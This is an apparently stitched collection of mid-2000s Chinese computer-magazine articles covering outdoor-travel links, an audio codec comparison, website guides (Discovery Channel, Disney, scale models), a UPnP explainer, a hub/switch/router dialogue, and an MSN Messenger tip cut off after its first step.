链接:http://www.out99.com/resource/res_view.asp?id=1022

- 4. 学会搭车
原来男人和女人在搭车时还分两套不同的“秘籍”。
链接:http://www.out99.com/resource/res_view.asp?id=558

- 5. 教会你“走路”
可能你会不屑，认为“走路谁不会”，可是在野外，你确实需要重新学习。
链接:http://www.out99.com/resource/res_view.asp?id=708

- 6. “放火”的学问
可千万别误会，这里的“放火”是指教会你如何生起一堆篝火。
链接:http://www.out99.com/resource/res_view.asp?id=1742

### 特别提示

去往国外或者国内的偏远山区(特别是少数民族较多的地区)，遵守当地的礼仪或习俗是非常重要的(严重的可能引来杀身之祸……)。每个地方都有自己的气候特点，在出行时应如何把握呢？

- 1. 如果你去内蒙古
链接:http://www.out99.com/resource/res_view.asp?id=1119

- 2. 在高原旅行，男人也要防晒
链接:http://www.out99.com/resource/res_view.asp?id=1085

(泰山)

## 为MP3随身听选种好格式

笔者的MP3也是128MB，所以一直以来用的都是WMA的VBR音乐格式。它体积小巧，在播放器中可以装下好多音乐，而且听起来虽然没有MP3好，但音质也没有太大的损失。不过，在用WMA听古典音乐的时候，感觉上总是差那么一大截。前些天将一盘古典CD转换成了文件体积也不是很大的MP3 Pro VBR格式。没想到，一听之下，效果竟然非常好，所以就干脆给WMA，MP3，MP3 Pro来做个评测，看看究竟哪个格式更适合我们容量不大的MP3。

测试工具:Adobe Audition v1.5 汉化版
音源:柴科夫斯基第六交响乐“悲怆”正版原盘第四乐章 从截取长度为5分11秒
压缩工具:抓轨工具:EAC0.95b4 中文版
WMA压缩:Windows Media 编码器9系列 + Advanced WMA Workshop(因为Windows Media 编码器9系列只支持50品质以上的压缩，故WMA10、25两档品质以 Advanced WMA Workshop 压缩)
MP3压缩:Adobe Audition v1.5 汉化版
测试方法:频谱对比

### 频谱对比的方法

从图1所示可以看出，从左到右是时间轴不断递增，在这里以时间放置了不同格式不同比特率的声音文件，并在时间线上作了标示(标示在上方)。窗口右边标尺上的数字是频率，最高为20000Hz，是一般人的听觉上限，WAV文件一般是超过这个上限的，对听感也有一些影响。在图1中，亮的部位表示能量较强，也就是在这一点的时刻该频率的声音比较多。暗的部位则能量弱，黑色的表示没有能量。还有就是从形状和密度上判断还原力和失真程度。在图1上我们可以大致看到不同格式文件之间的差异很大，在频率上WAV文件可以超过20000Hz，而cbr的MP3文件在6000Hz左右就“刀切”了。

### 测试方法

首先用EAC提取“悲怆”CD音轨，并保存为WAV文件，用Audition从2分24秒处截取5分11秒长度另存为WAV文件(在此处整个交响乐达到高潮，声音信息比较丰富)，作为整个测试的参照及不同格式转化的源文件。

- 1. 得到WMA文件:用Windows Media 编码器分别转制为100、75、50品质的WMA动态比特率音频文件。因为Windows Media 编码器只提供50品质以上，故再用WMA Workshop 转制25、10品质WMA动态比特率音频文件。

- 2. 得到MP3和MP3 Pro文件:以Audition转制动态比特率的MP3、MP3 Pro文件，品质分别为10、30、50、60、70、100。MP3文件相对应的比特率范围为80kbps~95kbps、95kbps~115kbps、105kbps~145kbps、110kbps~150kbps、125kbps~175kbps、150kbps~240kbps;MP3 Pro文件相对应的比特率范围为50kbps~60kbps、55kbps~70kbps、65kbps~85kbps、80kbps~110kbps、70kbps~95kbps、95kbps~150kbps。

### 测试结果

将各WMA、MP3、MP3 Pro不同品质文件分别进行混缩为单一文件，并以标示标明各个品质文件所在时间段，以方便对照。将以上三个混缩文件分别以频谱显示，以观察不同格式不同比特率之间差异。







## 探索，梦想开始的地方

寻宝对象：探索频道(中国)http://www.discoverychannel.com.cn

寻宝理由：探索频道一直是我非常喜欢的一个电视节目，每次跟随镜头探索事物的真相时，我都感觉置身其中，为自然及历史的伟大而折服。但我终究还是没能做到每集必看，不过没关系，在探索频道中文网站上，我们能够找到漏看的部分。

经典推荐：星球大战的科学启示
爱看电影的朋友一定没有错过前段时间上映的《星球大战前传—西斯的反击》，看过这部电影的朋友可能会对其中再现的各种先进武器和交通工具印象深刻。而探索频道当然也不会错过这个机会，借星球大战之势制作了一款非常有意思的未来幻想动画，我们的生活是否会和这些稀奇古怪的东西沾上边呢？
链接：http://www.discoverychannel.com.cn/starwars/

### 1. 适者生存

达尔文的进化论告诉了我们适者生存的道理，人类天生就具有生存的本能，在婴儿时代就会根据需要帮助的迫切程度来控制哭声的大小，对蛇和蜘蛛有天生恐惧。
注意：此链接共分3页，可从页面左侧的导航栏进入下一页。
链接：http://www.discoverychannel.com.cn/health/human_instincts_facts/feature_1/



### 2. DNA与克隆人

若干年前，世界上第一例克隆羊多利出现，既然能够克隆羊，那么克隆人也并非不可能。假以时日，会不会出现电影中有多个“我”的情况呢？克隆生物是否会颠覆人类的伦理观呢？
链接：http://www.discoverychannel.com.cn/health/dna/feature_1/

### 追寻科学的真相

科学与传统宗教永远是一对矛盾，人们总是喜欢把未知的现象归结为神灵的杰作，而科学家们却始终将这些无法探究的真相揭示给人们。现在仍有无数无法用科学解释的超自然现象等待我们去解释，人们始终在追寻……
链接：http://www.discoverychannel.com.cn/science/

### 究竟有没有鬼怪



吸血鬼、僵尸、狼人，究竟是电影中存在的虚幻恶魔，还是真实存在的未知生命？人类长久以来都生活在被科学统治却又始终饱含未知恐惧的隐晦的世界中，我们需要知道真相！
链接：http://www.discoverychannel.com.cn/science/truehorror/feature_1/

### 动物星球

地球上居住着人类，但地球上绝不仅仅居住着人类。
链接：http://www.discoverychannel.com.cn/animal/

### 无敌的血盆大口

鲨鱼，海洋中近乎最凶猛的生物，它那副恐怖的巨牙似乎可以将钢筋都嚼成碎末。(4页)
链接：http://www.discoverychannel.com.cn/animal/shark_week/feature_1/



### 将地球玩弄于股掌

对于人类来说，地球是巨大的，从中国的长城到法国的凡尔赛宫，从古希腊文明到敦煌，人类创造了多少奇迹？
链接：http://www.discoverychannel.com.cn/travel/

### 月球上能看到长城吗

秦始皇，中国历史上一个颇有争议的伟大君王。人们提起他，就会想起长城。据说在月球上能看到长城，这是真的吗？
链接：http://www.discoverychannel.com.cn/travel/china_revealed/feature_3/

（圣骑士）

### 人类健康之谜

人到底能活几岁？癌症真的是人类无法对抗的绝症吗？克隆人离我们有多远？让我们跟随探索频道，一起来探索人类健康的奥秘……
链接：http://www.discoverychannel.com.cn/health/

### 不同格式不同编码率下各个文件大小

| 格式 | 品质 | 大小(kB) | 格式 | 品质 | 大小(kB) | 格式 | 品质 | 大小(kB) |
|---|---|---|---|---|---|---|---|---|
| WMA VBR | 10 | 1594 | MP3 VBR | 10 | 3048 | MP3 Pro VBR | 10 | 1900 |
| WMA VBR | 25 | 2012 | MP3 VBR | 30 | 3740 | MP3 Pro VBR | 30 | 2114 |
| WMA VBR | 50 | 2442 | MP3 VBR | 50 | 4013 | MP3 Pro VBR | 50 | 2458 |
| WMA VBR | 75 | 3801 | MP3 VBR | 60 | 4304 | MP3 Pro VBR | 60 | 2656 |
| WMA VBR | 100 | 21868 | MP3 VBR | 70 | 4917 | MP3 Pro VBR | 70 | 3102 |
| | | | MP3 VBR | 100 | 6361 | MP3 Pro VBR | 100 | 4187 |
| | | | MP3 Pro | 40k | 1522 | MP3 Pro | 64k | 2473 |
| | | | MP3 Pro | 64k | 2435 | MP3 Pro | 96k | 2435 |
| | | | MP3 Pro | 96k | 3652 | MP3 Pro | 128k | 4911 |
| | | | MP3 Pro | 128k | 4869 | WMA | 320k | 12205 |
| | | | WMA | 320k | 12205 | MP3 | 320k | 118003 |

### 结果分析

在MP3 VBR不同品质编码频谱图中我们可以清楚地看到（见图2），将WAV文件转为MP3后，截止频率在14000Hz～16000Hz不等，不同品质MP3文件之间差异并不是很大。而且最高品质比特率在150kbps～240kbps时，MP3文件与WAV源文件的差异仍然比较明显，不管是从截止频率上看还是从分布密度上看。也就是说，即使选择了最高品质的MP3 VBR转制文件，对音质损失还是相当大的。

在MP3 Pro VBR不同品质编码频谱图中我们惊奇地发现（见图3），截止频率在文件品质50和6之间出现了一个明显的“飞跃”，品质50以下的文件截止频率大约均在16000Hz左右，相互间的差异主要在密度分布上。而当品质系数达到60以后，文件的截止频率突增到20000Hz以上，几乎和WAV源文件持平。在100品质下频谱分布密度也和WAV文件相差不大。可以看出，如果将WAV文件转制为MP3 Pro格式，品质60是一个不错的选择。而品质100可以达到几乎还原WAV文件的效果，而文件体积不到WAV文件的8%。应该说由此就可以看出MP3 Pro是转制文件不错的选择。

在WMA VBR不同品质编码频谱图中我们可以看到WMA文件的截止频率明显低于以上两种编码方式（见图4），在品质10时大约只能达到9000Hz，品质75能达到14000Hz左右，只有品质100截止频率和WAV文件持平，在分布密度上也优于MP3 Pro 100的品质。但可惜的是，此时的文件体积已经接近WAV文件的一半。对于普通的MP3播放器而言，已经失去了压缩的意义。

最后是在CBR方式下进行比较的比较简单（见图5），图中我们可以看到低比特率（64kbps）下，WMA格式明显优于MP3，而MP3 Pro编码方式在40kbps下已经远远好于WMA和MP3格式。在128kbps下，WMA截止频率仍较MP3略有优势，分布频率也相差无几，CBR MP3 Pro格式在96kbps比特率下(所允许的最高比特率)截止频率明显高于128kbps下的WMA和MP3，但分布密度不如二者。在高比特率320kbps下，WMA无论在截止频率还是分布密度上，仍较MP3音质损失为少。不难得出结论，在CBR编码下，无论何种比特率，WMA均较MP3有优势，而MP3 Pro应该说是在控制文件体积的条件下音质损失最少的，但它最高只提供96kbps，无法在更高比特率下作进一步比较。但我们可以看出，CBR下无论何种编码方式，与其相应的VBR编码方式相比，均损失更多的音质，体积也较VBR为大。

### 总结篇

通过这次评测，我们可以清晰看到，如果追求最小的文件体积，可以考虑品质10的WMA VBR编码格式。当然，在此种编码方式下，音质损失较多，但对于英语听力、语音故事等音频，仍不失为一个相当不错的选择。

然而对于音乐文件，如果也是追求尽量小的文件体积的话，可以考虑品质为10的MP3 Pro VBR编码方式。文件体积仅相当于品质25的WMA VBR，而音质却要高出许多。如果在考虑文件体积的情况下还要尽可能地追求音质，那么推荐使用品质60的MP3 Pro VBR方式编码。此时，音质有一个“质的飞跃”，体积却增大不多，仅相当于品质为50的WMA VBR，比最低品质的MP3 VBR体积还要小(当然此时的音质已经大大地超过了MP3 VBR了)。如果追求最好的音质，那么也推荐使用MP3 Pro VBR，并将品质选定为100。上面已经说过，此时的MP3 Pro文件，用相当于WAV文件8%的体积大小几乎还原其音质！而不得不说的是，对于MP3 VBR编码方式，在体积上逊于WMA，在音质上逊于MP3 Pro，不做推荐使用。因为现在网上绝大多数是MP3格式的文件，笔者推荐，在网上下载MP3文件后，自己动手，将它转制为MP3 Pro格式，当然，此时的音质最好也就是所下载的MP3水平，但是我们通过此种方法，却可以在保持音质的前提下，大大缩减文件体积，何乐而不为？

### 小提示

并不是所有的MP3播放器都支持MP3 Pro格式，可以从处下载制作MP3 Pro格式的电子书。

（王大伟）# “UPnP”让全世界轻松牵手

阿义住在男生宿舍348房间，一直自诩为电脑神童，自认为与比尔·盖茨的唯一差别是比尔中途辍学，而他没有。由于确实懂得比其他人多一点，舍友们的电脑出现什么问题，都会先请他帮忙。这不，又有人来向他讨教了……

笨笨：阿义呀，最近在网上经常看到“UPnP”这个词，啥意思呀？

阿义：笨笨，不是我说你，你怎么还活在上个世纪呀，“UPnP”就是即插即用，早在Windows 95时代就有了，比如你新买了Modem，不用自己设置中断，操作系统就能替你设置了。这就是“UPnP”呀！

笨笨：噢，原来是这样！太感谢了！

## 此“PnP”非彼“PnP”

-   1. 想不搞混，先温习一下PnP
阿义笑话人家停留在Windows 95时代，其实他自己才活在那段回忆里面。现在流行的“UPnP”、“PnP”和过去的即插即用是不一样的。在Windows 95诞生以前，人们在使用电脑时最麻烦的事情就是安装硬件设备。于是上世纪九十年代Intel公司提出了PnP (Plug and Play，即插即用)规范，从系统自身去解决底层硬件资源，包括IRQ(中断请求)、I/O(输入输出端口)地址、DMA(直接内存读写)和内存空间等的分配问题。允许PC机自动进行自我配置，用户可以“插入”一个外设，不需要进行系统的手工配置即可“使用”它。

-   2. 听故事快速认识UPnP
UPnP场景1:张先生正坐在赶往机场的出租车上，他将去广州参加一个重要会议。他忽然想起，办公室电脑中的一份重要文件尚未处理，而按照约定的时间，客户应在半小时内收到答复，怎么办？好在出租车上已经安装了支持UPnP的网络设备。张先生打开手机的网络功能，自动连接上了车上的GPRS上网功能，无需任何设置，就可以访问打开办公室里的电脑，找到文件，并用手机键盘进行相关的文件编辑、邮件发送。
UPnP场景2:张太太从夏威夷旅游归来，刚刚进家，数码相机、PDA就已经和家中电器连上了。PDA中的影音文件立刻通过墙上的大屏幕液晶电视播放出来。进门的时候，数码相机拍摄的照片已经自动在墙上的电子相册上播放了。如果想选择一张自己喜欢的照片，还能在另一个房间的打印机上出照片。
你应该看出来了，UPnP的主要作用就是简化网络设置，使各类电子设备可以快速连接。UPnP的英文全称是Universal Plug-and-Play，中文意为“通用即插即用”，是对即插即用(PnP)的扩展。1999年10月微软成立了UPnP论坛 (http://www.UPnP.org )。

## 就在你身边的UPnP

你也许会觉得智能家电距离我们还有很远，家里能联上网的设备除了电脑，还是电脑，没有其他的了。其实，常见的很多P2P软件就要用到UPnP，比如BT、电骡eMule等，都使用了UPnP技术。BT软件中提到的UPnP和前面提到的“用于PC机和智能设备（或仪器）的对等网络连接的体系结构”并不等同，它只是利用了其中的一部分功能，被称为UPnP NAT Traversal。为什么要使用这种技术呢？使用UPnP之后，内网用户就可以不进行设置，直接联到外网的用户电脑上，这样就能大大提高下载速度。

-   1. UPnP让内网用户下载速度大提升
以常用的BT软件BitComet为例，它已经支持了UPnP功能，我们只需打开其中设置即可。依次打开“工具→选项→高级设置→网络连接”，选中其中的“允许使用UPnP自动端口映射”。注意，这样的设置只对Windows XP以上版本的操作系统有效。启用UPnP后，在内网中使用BitComet的用户就可以自动连接到位于外网的种子，从而大大提高网速。

## 小提示

-   ★为什么内网要用UPnP自动端口映射
内网的特点是无法对外打开监听端口,会损失所有外部进来的连接,常用的解决办法是进行端口映射,但操作比较复杂,而BT软件的“UPnP自动端口映射”可以在本机上自动完成网关端口映射操作(网关设备需要支持UPnP,目前大部分硬件防火墙、ADSL Modem都支持),这样内网的BT下载速度就会变快。
★快速查看自己在内网还是外网
判断方法很简单，不用安装额外的软件，只要有MSN Messenger即可。打开MSN Messenger,选择菜单中的“工具→选项”，然后点击“连接”标签，这时在“高级连接信息”中就会显示出你的网络状态。如果其中包含“直接连接”字样，证明你处于外网，否则就说明你处于内网。
★SP2下手动设置UPnP
在安装Windows XP SP2后，有些用户感觉BT下载比以前减慢了。解决方法是:进入“开始→控制面板→Windows防火墙”，在“例外”选项卡下勾选“UPnP框架”，接着选中它，并单击“编辑”按钮，在弹出的“编辑服务”窗口中单击“更改范围”按钮，然后选择“任何计算机（包括Internet上的计算机）”。如果你使用BitComet等软件，就可以省略此步骤。

-   2. 怎样才能享受UPnP
（1）Modem必须支持UPnP功能，Modem还必须同时支持路由功能。
（2）操作系统的支持:只有Windows XP系统才支持UPnP功能，但微软的官方网站声称从Windows Me开始就已经支持UPnP，但在目前的大环境下，还是推荐使用Windows XP。
（3）软件必须支持UPnP功能:如BC、电骡eMule、MSN等软件都支持UPnP功能。注意，相当多的网络防火墙软件不支持UPnP，目前已知支持的有Windows XP中的ICS/ICF、WinRoute Firewall 5，诺顿网络安全特警2003/2004。而诺顿网络安全特警2002、天网2.50/2.51、瑞星网络防火墙、金山网镖等都不支持UPnP。

## 家居自动化 网络零管理

智能家居这个词汇已经不是新词，早在比尔·盖茨当年写《未来之路》的时候，就有过非常简单的梦想：如果计划购买一台冰箱，你将不用再听那些喋喋不休的推销员唠叨，电子论坛将会为你提供最为丰富的信息；一对邻居在各自家中收看同一部电视剧，然而在中间插播电视广告的时段，两家电视中却出现完全不同的节目。中年夫妻家中的电视广告节目是退休理财服务的广告，而年轻夫妇的电视中播放的是假期旅行广告。如今的家电论坛确实已经成为大家选购电器时的重要参考，而我们对于电视的要求显然已经不只限于点播了，我们对于电视的功能显然提出了更高的要求，但1997年的盖茨恐怕都没有想到。
UPnP的作用是提供网络上所有设备互相配合的能力，而将尽最大可能地减少用户参与的网络管理，这也就是所谓的“通用即插即用”。其实，这里翻译成“万能即插即用”可能更加生动一些。这里，我们以支持UPnP的无线多媒体播放机D-Link DSM-320RD为例，简单介绍一下UPnP的工作原理。
第一步：我的家在哪里——确定IP地址
就像一台设置了“自动获得IP地址”的电脑一样，DSM-320RD联入网络后会自动搜索IP地址，并自动配置好，确保不会与其他设备发生冲突。
第二步：大家好，我来了——与其他设备沟通
得到IP地址之后，设备会向网络中发送广播，宣告自己的存在。这时它就像一台服务器，等候其他用户的访问。在这个过程中，用户完全不必理会IP之类的东西，网络中的PC会运行多媒体控制软件（如Microsoft Windows Connect Now）来连接DSM-320RD。这里使用一种叫做SSDP的协议。SSDP (Simple Service Discovery Protocol,简单服务发现协议)是从网页使用的HTTP协议发展出来的一种协议。
第三步：互相问候——交换信息
设备接收到回应后，就会交换信息，完成所需任务。设备之间的沟通方式通常是XML或HTML语言。

## 不花钱的UPnP小软件新鲜尝

看到这里，你可能会认为要体现UPnP独特魅力，非要破费地去买一台媒体播放器不可了。其实不然，已经有不少支持UPnP的小软件，可以让你不花钱就能尝试一下！

-   1. On2Share
Windows Media Player（WMP）的免费插件，可以将WMP的播放列表通过UPnP传到网络上其他运行了WMP的电脑中。软件分为服务器段和控制段两个部分，客户端安装了这个插件之后，将会自动搜索是否有服务器存在，如果有它就会自动显示出来。
下载地址:http://www.on2trade.de/on2share/on2share_setup.exe

-   2. TwonkyVision MediaServer
TwonkyVision MediaServer可以建立流媒体服务器，支持的网络设备包括LinkSys NSLU2, Asus WL-HDD和Buffalo Linkstation，网络上其他的UPnP装置可以自动播放它的多媒体内容。值得一提的是，这个网站还提供一个免费的音乐服务器 ( http://www.twonkyvision.de/UPnP/index.html#musicserver )，它的使用方法和TwonkyVision，可以播放音乐，由于它和On2Share同属UPnP标准，因此互相兼容，你不妨尝试一下。
下载地址:http://www.twonkyvision.de/UPnP/index.html

-   3. Nero Digital
AHead公司出品的光盘刻录软件Nero大家都非常熟悉，这是该公司推出的一套家居影音软件，其中的Nero MediaHome也是一个支持UPnP的流媒体服务器软件，可以通过网络远程播放。服务器架设好之后，在网络的另一端，同样运行Nero ShowTime 2的PC就可以播放电影、查看图片和收听音乐。
下载地址:http://www.nerodigital.com/eng/index.html

和常规软件比起来，UPnP软件有着很明显的互通性。以上三种完全出自不同公司的媒体播放软件，在播放时竟然可以连接到对方的服务器上，访问对方资源，这是我们以往对软件的理解的一个不小的突破。
小编有话说：说到这里，相信你已经对UPnP有一个比较细致的了解。其实，作为微软提出的一个家用网络标准，自然也会受到其他公司的挑战，包括来自欧洲的European Home System，美国的CEBus，以及Sun的Jini，这些标准各自都有不同特点。不管谁最终主幸，相信“互通互联”、“零管理使用”都应该是这些标准的发展方向。

(LX)

# 走进迪斯尼动画王国

寻宝对象: 迪斯尼动画王国 http://disney.wretch.cc/

寻宝理由: 对于很多人来说，迪斯尼已经成为了一个动画的代名词。从“白雪公主”、“米奇”、“小熊维尼”，到后来的“玩具总动员”，我们几乎可以从迪斯尼动画的历史来窥视整个动画行业的发展轨迹。在一个迪斯尼爱好者建立的主题站上，我们找到了许多有意思的东西。



## 迪斯尼发展史

沃尔特·迪士尼，这个注定要创造动画时代的人，凭着创意起家，在二十岁时便只身从老家堪萨斯来到好莱坞闯天下。他创造了世界上第一部有声动画，他创造了家喻户晓的米老鼠(米奇)和唐老鸭形象。
链接:http://disney.wretch.cc/History/index.htm



## 迪斯尼动画作品巡展

你知道的迪斯尼动画作品有多少？你看过却说不出名字的迪斯尼动画作品又有多少？这个网站用两种分类方式进行了收集整理。
链接(分类方式): http://disney.wretch.cc/kinds.htm
链接(年表方式): http://disney.wretch.cc/disney.htm

-   稀饭收藏夹:
    - ①白雪公主:http://disney.wretch.cc/Text/c01.htm
    - ②木偶奇遇记:http://disney.wretch.cc/Text/c02.htm
    - ③狮子王:http://disney.wretch.cc/Text/c32.htm
    - ④未来的迪斯尼:http://disney.wretch.cc/future.htm



## 经典画廊

影片中的经典瞬间，能否唤起你的记忆？另外，有很多图片很适合用做桌面。
链接:http://disney.wretch.cc/Gallery/index.htm

-   稀饭收藏夹:
    1. 动画壁纸
        - ①狮子王:http://disney.wretch.cc/Gallery/c32/p86.jpg
        - ②怪兽电力公司:http://disney.wretch.cc/Gallery/monsters/p8.jpg
        - ③超人特攻队:http://disney.wretch.cc/Gallery/incredibles/p36.jpg
    2. 海报招贴画
        - ①米奇70周年特展:http://disney.wretch.cc/Gallery/Mickey/index.htm
        - ②迪斯尼经典动画海报特展:http://disney.wretch.cc/Gallery/CLASSICS/index.htm
        - ③迪斯尼100年特展:http://disney.wretch.cc/Gallery/100years/index.htm

## 挑战！寻找隐藏米奇

迪斯尼的动画家下的挑战！原来在每部迪斯尼动画片中都隐藏了各种笑料以及米奇头像，你能找到吗？
链接:http://disney.wretch.cc/Joke/index.htm

-   稀饭收藏夹:
    - ①睡美人:http://disney.wretch.cc/Joke/c16.htm 连饼干都是米奇形状的，篮子中的梅子竟然也有米奇形状的。
    - ②小美人鱼:http://disney.wretch.cc/Joke/c28.htm 海底宴会上，米奇和唐老鸭竟然隐藏在人群中……
    - ③海底总动员:http://disney.wretch.cc/Joke/fn.htm 小海龟身上有米奇图案。

（仓鼠球）

# 告别“通讯基本靠吼”的时代——集线器、交换机、路由器的对话

提到集线器、交换机和路由器，可能大家的第一反应就是：“这些是组建局域网的硬件，路由器最贵、集线器最便宜”，然后呢？似乎有点茫然。为此，我们组织了一个辩论会，将三大主角请到了“Cfan会客室”。它们之间究竟有什么不一样，你该选择谁，马上见分晓。

## 三位明星的“开场告白”

主持人：三位目前都是组网硬件中的热门人物，请大家先用简短的话介绍一下自己吧。

-   - ★集线器：我资格最老，我先来吧。我中文名“集线器”，不过大家都叫我“HUB”（念作“哈脖儿”）。从我出生那天，就居住在网络OSI体系的第一层—物理层。有人把我比作学校里的“大喇叭”，“一有事情就开始广播；也不管别人愿不愿意听”，其实那是因为我比较崇尚原始的行为方式—“通讯基本靠吼”。
- ★交换机：HUB大哥的开场白真是言简意赅。我也有个洋名，不过没HUB大哥的听着顺口，叫“Switch”。我住在HUB大哥的楼上—OSI体系第二层链路层。如果HUB是“大喇叭”，那么我就是“BP机”，因为我能够知道什么样的数据该发到哪里去，不会不管大家愿不愿意都去“欺负”大家的耳朵。从这一点来说，我比HUB与时俱进得多。我一直在劝说HUB大哥退休，可他似乎有点不服老。
- ★路由器：最近一直很忙，在谈几个公司之间网络“合作”的事，也没准备演讲稿，我就“有一说一”吧。我的英文名叫“Router”，住在交换机的楼上—OSI体系的网络层。当年单位分房的时候，我拿到了这个不错的位置，以至于大家都以为我是什么“高干子弟”。其实那绝对是我的误解，现在用我来组建局域网并非奢侈的事。两位前辈分别把自己比喻成“大喇叭”、“BP机”，那我就不客气了，我的功能更像是个“手机”，不仅知道什么数据该发到哪里，而且还知道数据怎么发会更通畅些。

## 用比喻来理解三位明星的工作原理

主持人：听完三位的精彩发言，为了加深大家的印象，我们准备了一个背景知识介绍，请看大屏幕。

### 1. 集线器和交换机

集线器和交换机代表了两种完全不同的工作方式—共享和交换。如果把“数据在局域网络中的传递”比喻成“通知某人明天到哪去做什么”，那么共享和交换两种工作方式就有不同的操作：

-   - ★基于“共享”的集线器实际上处于一种无秩序工作状态，当它接到信息后，直接以“广播”的方式将信息发送出去，每个网络上的端口都将收到这个信息。也就是说，所有的目标地址同时只能共享带宽，这样势必效率低下—如果需要发布10个人明天要到哪、做什么的消息，所有人都要听到10则广播通知。对于一个带宽为10Mbps的集线器来说，如果有10台工作站连入网络，那么从理论上来讲，每台工作站只能分配到1Mbps（见图1）。
- ★基于“交换”的交换机则不同，当它接到信息后，能够根据工作站各自不同的MAC地址来进行有针对性的通知。也就是说，比如要通知“A明天到会议室开会”，交换机只需要根据对该信息数据包的头部的分析，再对照存储在交换机中的网络地址表，就可以知道它从哪来、应该发往哪里，之后就直接将这条通知单独发给A即可。这跟BP机非常相似。这样的好处是对于连入网络的各个工作站，不需要共享带宽，每个工作站都可以独享完全的带宽（见图2）。





火速链接 有关集线器和交换机工作原理，大家也可以参考本期《碟中谍3！网络上演不可能的任务》一文中的原理部分。

### 2. 路由器

路由器与集线器和交换机相比，又采用了完全不同的工作方式。它的通讯已经不需要像交换机那样需要 MAC 地址来指引，而是提升了一个档次—通过 IP 来工作。这就决定了路由器比交换机具有更多的功能和更强的灵活性。

路由器的内部有一套“操作系统”，当它接到信息后，首先将“拆包”，并查看 IP 地址信息。接下来根据路由表来确定信息该怎么发送比较快捷，搞定后则进行第二层信息的封装（称为“打包”），最后才将该数据包转发。这跟手机差不多，既具有 BP 机的“一对一”功能，还能衍生出更多的功能，而且不同的手机之间通信完全不存在障碍（见图 3）。

## 你到底该选择谁？

主持人：看完背景知识介绍之后，大家应该对各自的原理有了新的认识，不过问题的关键在于，当我们组建局域网共享上网的时候，究竟该选择谁呢？我们还是请三位嘉宾各自做做广告吧。

-   - ★集线器：价格才是王道！对于一般应用，比如说三两台计算机共享上网、寝室组建小型局域网，选择我就没错了。
- ★交换机：大家别被集线器误导，其实选择我比集线器贵不了多少，同样数量接口（比如说12口）的交换机只比集线器贵20元～30元。从性能上来讲，我要比集线器强不少。即便是在小型局域网中，如果选择集线器，可能会出现某两台机器之间共享文件时传输很慢的情况，而选择我，一般不会出现这样的情况。
- ★路由器：我不想强调我在组建大型局域网时不可取代的地位，对于普通用户组建小型局域网，什么时候该选择我呢？如果你的 ADSL Modem 不支持路由功能，可以选择购买一个 4 口的路由器来共享上网。对于其他情况，说句真心话，买路由器不如买交换机，毕竟我的身价还是三者中最高的。对于单纯组网来说，交换机最快，路由器其次，最后是集线器。



## 总结陈词

主持人：通过今天的讨论我们至少明白了下面几点：

-   - ★集线器曾经辉煌，交换机正大行其道，路由器在大型网络中举足轻重，各自的原理和实现方式有所不同。
- ★“通讯基本靠吼”的时代已经过去了，由于在价格上集线器已经不具有太大优势，建议大家选择交换机来组建局域网，可以彻底抛弃集线器。
- ★对于共享上网的情况，如果 Modem 本身支持路由（或者可以开启路由功能），建议选择交换机 + 路由 ADSL Modem 的方式，否则，可以考虑选择路由器。
会后，集线器黯然神伤，并坦言“回去就打退休报告”；交换机春风得意；而路由器则直接赶往机场，据说是要参加一个大型网络合作会议……

（北京 oov ）

# 以假乱真！模型的艺术

寻宝对象：模型爱好网 http://www.imx365.com/

寻宝理由：开飞机、开坦克，曾经是我小时候的梦想，但戴着眼镜的我是不指望能入伍当兵了，所以这些也只是残念。虽然如此，我还是可以拥有这些儿时的梦想，因为我现在爱上了模型制作……

## 玩玩静态模型

所谓静态模型；其实从名字里就能很轻易地猜到，就是不会动的模型。可能有很多人都对那些装上电池会跑的东东感兴趣，但实际上，这些不会动的静态模型也是有灵气的，如果是高手，完全可以做出与真品所差无几的坦克模型（虽然大小差了很多）。
链接：http://www.imx365.com/bbs/index.ias?cid=ssmx

## 稀饭收藏夹：

-   ①模型制作技法列表：http://www.imx365.com/bbs/article.ias?cid=ssmx&fid=rookie&aid=20050210014516
模型制作并不像你想像的那么简单，大多数人对模型制作的认识都停留在将几个小零件组装起来这种水平，其实并不是这么简单，光是喷绘工序就精细得让人咋舌。即使是初学者也没关系，来看一下高手整理的学习资料。

-   ②黄金圣斗士：http://www.imx365.com/bbs/article.ias?cid=ssmx&fid=pic&aid=20050728093419
第一个版本的黄金圣斗士拼装模型，质感比较差，但现在已经成为收藏品了。
③老外做的精品：http://www.imx365.com/bbs/article.ias?cid=ssmx&fid=pic&aid=20050627170955
为什么老外做的模型总是看起来更真实一些呢？有些叹服老外的钻研精神。
④十面埋伏：http://www.imx365.com/bbs/article.ias?cid=ssmx&fid=pic&aid=20050728093419

## 我也要做模型

看了上面的图片，可能很多朋友已经跃跃欲试了，这个网站的模型制作资料库的内容还真不少，一起来见识一下。
链接：http://www.imx365.com/article/list.ias?id=ssmx

## 稀饭收藏夹：

-   ①粉彩（天然土）的秘密：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728084956
水渍、阴影、旧化，这些效果你知道是怎么来的吗？这就是粉彩的秘密。
②调色心得：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728084458
实在很难想明白，人的肤色、车辆的迷彩，竟然都是用颜料调配出来的。
③情景制作贴士
水桶：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728080406
树：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728080556
水：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728080951
酒瓶：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20050728081512
玉米：http://www.imx365.com/article/view.ias?id=ssmx-skill-progress-20040512203117
④给第一次制作模型的朋友：http://www.imx365.com/article/view.ias?id=ssmx-skill-jackeroo-20050727181012
不要觉得无从下手，勇敢地迈出第一步吧！




## 看图挑模型

已经决定去模型店挑选一个回来练练手了？先看看成品的图片吧，找一款适合自己的。
链接：http://www.imx365.com/download/index.ias



## 稀饭收藏夹：

-   ①F16C战机：http://www.imx365.com/download/downview.ias?id=about-plane&fid=20050110092309
②苏26制作图纸：http://www.imx365.com/download/downview.ias?id=aero-blueprint&fid=20050108115715

（学会放手）

# MSN Messenger 也能隐身聊天啦

MSN Messenger 可以像 QQ 那样设置为隐身，但却不能像 QQ 那样在隐身状态下与联系人聊天。而 7.0 版本也没有解决这个毛病，这让很多朋友非常失望。其实，只要在网易泡泡中开启 MSN 插件，然后在网易泡泡中登录你的账号就可以实现隐身状态下与联系人聊天了：

-   第一步：在网易泡泡中，单击“工具→系统配置”，在打开的“系统配置”窗口中选择“插件管理”项，在右侧窗口中勾选“MSN”，再单击“配置”按钮，打开如图所示的配置窗口。
